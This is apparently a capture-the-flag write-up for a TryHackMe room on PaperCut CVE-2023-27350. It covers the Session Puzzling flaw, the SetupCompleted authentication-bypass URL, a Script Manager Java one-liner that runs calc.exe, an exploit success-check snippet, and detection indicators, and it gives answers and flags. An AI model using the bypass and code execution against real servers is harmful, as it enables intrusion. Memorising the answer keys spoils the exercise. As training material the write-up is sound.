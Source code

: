 > # PaperCut: CVE-2023-27350

## Summay
- [Summay](#summay)
  - [Task 2 - Understanding PaperCut and CVE-2023-27350](#task-2---understanding-papercut-and-cve-2023-27350)
  - [Task 3 - Exploiting CVE-2023-27350](#task-3---exploiting-cve-2023-27350)
  - [Task 4 - Detection and Mitigation](#task-4---detection-and-mitigation)

### Task 2 - Understanding PaperCut and CVE-2023-27350
1. What is the name for the logic vulnerability that occurs when session and authentication functions are used for multiple purposes?<br>
    >  there is a Session Puzzling flaw within the SetupCompleted class, a logic vulnerability that occurs when session and authentication functions are used for multiple purposes.
    
    **Answer:** Session Puzzling

1. What is the name of the Java class containing the authentication bypass vulnerability?<br>
    > This request then initiates the SetupCompleted class, which, as seen in the below code block, includes a call to the performLogin() Java method, passing in Admin as the LoginType argument.

    **Answer:** SetupCompleted

### Task 3 - Exploiting CVE-2023-27350
1. If the vulnerable host has a hostname of PRINT.TRYHACKME.LOC, what would be the URL that you could use to perform the authentication bypass?<br>
    **Answer:** http://PRINT.TRYHACKME.LOC:9191/app?service=page/SetupCompleted

1. What would be the one-liner added to the Script Manager to execute calc.exe?<br>    
    **Answer:** java.lang.Runtime.getRuntime().exec('calc.exe');

1. What is the value of the flag stored in the Administrator's Desktop folder?<br>
    ```
    C:\Program Files\PaperCut NG\server>type C:\Users\Administrator\Desktop\flag.txt
    type C:\Users\Administrator\Desktop\flag.txt
    THM{PaperCuts.Can.Hurt.Even.Computers}
    ```
    **Answer:** THM{PaperCuts.Can.Hurt.Even.Computers}

1. What text is the automated exploit searching for to tell it that the exploitation was successful?<br>
    ```python
    if r.status_code == 200 and 'Saved successfully' in r.text:
        print('[+] Executed successfully!')
    else:
        print('[-] Might not have a printer configured. Exploit manually by adding one.')
    ```
    **Answer:** Saved successfully

### Task 4 - Detection and Mitigation
1. Based on the application logs in the first image, what is the name of the printer for which the "print script" has been updated?<br>
    **Answer:** [Template printer]

1. What is the executable name of the PaperCut process on Windows?<br>
    > When the PaperCut software is used to execute another process, a child process is spawned under pc-app.exe

    **Answer:** pc-app.exe

1. What is the flag you receive after detecting the indicators of compromise within Inktrail's network?<br>
    Complete all task to get the flag.<br>
    **Answer:** THM{PAPER.JAM.DETECTED}
